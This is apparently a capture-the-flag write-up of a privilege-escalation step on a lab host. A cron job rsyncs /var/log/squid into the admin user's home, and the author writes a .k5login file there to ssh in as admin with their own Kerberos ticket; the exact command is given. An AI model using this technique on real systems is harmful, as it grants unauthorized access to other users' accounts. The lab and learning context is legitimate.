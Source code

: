 ## Crontab to k5login

Found crontab running `/usr/local/bin/log_backup.sh` as user "admin" on `srv01` host
```bash
* * * * * admin /usr/local/bin/log_backup.sh
```

```bash
[j.nakazawa@srv01 krb5.conf.d]$ cat /usr/local/bin/log_backup.sh
#!/bin/bash

/usr/bin/rsync -avz --no-perms --no-owner --no-group /var/log/squid/ /home/admin/
cd /home/admin
/usr/bin/tar czf squid_logs.tar.gz.`/usr/bin/date +%F-%H%M%S` access.log cache.log
/usr/bin/rm -f access.log cache.log
```

script is syncing `/var/log/squid/` to `/home/admin/`, that means all file from `/var/log/squid/` direcotry copy to `/home/admin/` and than creates tar archive from these file.

Found a login technique with kerberos with `.k5login` config file from [kerberos docs](https://web.mit.edu/kerberos/krb5-devel/doc/user/user_config/k5login.html)

__EXAMPLES__

Suppose the user "alice" had a `.k5login` file in her __home directory__ containing just the following line:
```bash
bob@FOOBAR.ORG
```
This would allow user "bob" to use Kerberos network applications, such as `ssh`, to __access alice‘s account__, using __bob‘s Kerberos tickets__.

and we can use this technique to login to user "admin" with running cronjob.

__Create `.k5login` file in the `/var/log/squid/` folder.__

*user "j.nakazawa" is in squid group but `/var/log/squid` directory don't have read permission.*

![](screenshots/squid-log.png)

```bash
echo 'j.nakazawa@REALCORP.HTB' > /var/log/squid/.k5login
```

and ssh to "admin" with user "j.nakazawa" token 
